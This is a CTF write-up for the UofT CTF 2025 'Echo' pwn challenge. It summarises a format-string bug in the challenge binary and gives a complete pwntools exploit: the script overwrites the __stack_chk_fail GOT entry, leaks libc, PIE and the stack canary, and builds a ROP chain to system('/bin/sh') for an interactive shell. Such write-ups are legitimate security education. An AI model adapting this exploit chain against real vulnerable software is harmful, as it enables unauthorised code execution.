 # Echo -UofT CTF 2025 (Pwn)
**Author** : White  
**Description** : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?  
## 1. Vulnerability Summary
**Protection**  
| RELRO         | Canary | NX   | PIE  |
|---------------|--------|------|------|
| Partial RELRO | Yes    | Yes  | Yes  |  

- The program accepts unrestricted input to `printf`, resulting in a format string vulnerability.
- The buffer begins at `rsp + 7`.
- The stack canary resides at `rbp + 8`, allowing precisely 1 byte of overflow without triggering detection.
- The `__stack_chk_fail@GOT` entry can be overwritten via format string write.
## 2. Exploitation Strategy
| Step            | Detail                                                        |
|-----------------|---------------------------------------------------------------|
| GOT Overwrite   | `__stack_chk_fail@GOT` → `vuln()` using FSB (Partial Overwrite)     |
| Info Leak       | libc, PIE, stack canary via FSB          |
| ROP             | Injected after bypassing canary; uses libc gadgets            |
## 3. Exploit Code
```python
from pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
